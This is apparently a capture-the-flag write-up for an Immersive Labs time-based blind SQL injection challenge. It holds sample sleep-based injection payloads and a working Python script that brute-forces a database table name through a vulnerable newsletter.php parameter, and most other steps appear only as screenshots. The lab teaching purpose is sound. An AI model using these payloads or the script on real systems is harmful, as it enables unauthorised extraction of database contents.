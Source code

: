 ```yaml
---
date: 2025-02-08
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection – Time-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "SQL Injection – Time-Based Bl - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Time-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi)

**<u>To test for time-based sqli:</u>**
Example:

```bash
http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'
```
or use:
**' OR SLEEP(5) AND '1'='1**
or
**'AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe**

If the websites hangs for a bit, it means it is vulnerable to this kind of attack


![image1](../resources/0ea334980e34492093c4a7564082592d.png)


![image2](../resources/048d06d477a3420e9537d1315fe5ded8.png)

- Edit script (below) with parameters


![image3](../resources/d5f84473a07445e39af788ad44b0c701.png)

DB_name (script below)


![image4](../resources/42d7108f995746d1973bb6b4cc360e77.png)

Table_name (script below)


![image5](../resources/a18612f005af4f699d29aec9ac07fad9.png)

Column_name(script below)


![image6](../resources/208b3c33cdbb47f586ad222089318e9f.png)

Find flag


![image7](../resources/f15c06b5f66e4b90a9d2128af08c19d0.png)

**Ignore capitals and weird characters**


![image8](../resources/4b57281e766f4f77a4225d5d83867ffb.png)

Make sure to put the queries in their own ( )

**<u>Time-Based Bruteforce Database name script</u>**


![image9](../resources/ded6c258929345789f2ffe7614ec744c.png)

**<u>Time-Based Bruteforce Table name script</u>**


![image10](../resources/72335977ed8b4427a695b6c17c6ab8f2.png)

**<u>Time-Based Bruteforce Column name script</u>**


![image11](../resources/db532af227954c6d8796124e71b2ed5e.png)

**<u>Find flag</u>**


![image12](../resources/b408bf05364d4936a6d8c932e17e473e.png)

**<u>Script:</u>**

```python
import requests
import sys
import time

# Send the payload to the vulnerable parameter on the target host
# If it takes 5 seconds or longer to get a reply, return True
def send_payload(ip, payload):
    start = time.time()
    r = requests.get(
        "http://%s/newsletter.php?name=test&email=test' OR IF (%s, sleep(5), 'NO') AND '1'='1'" % (ip, payload)
    )
    end = time.time()
    return (end - start) >= 5

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "LENGTH((select table_name from information_schema.tables where table_schema=database()))='%d'" % i):
            length = i
            break

    print("Length: %d" % length)
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()

    db_name = ""
    for i in range(1, length + 1):
        for j in range(96, 123):  # ASCII a-z
            if send_payload(ip, "SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s'" % (i, chr(j))):
                db_name += chr(j)
                sys.stdout.write(chr(j))
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    db_name = brute_db(ip)
    print("DB name: %s" % db_name)

if __name__ == "__main__":
    main()


```

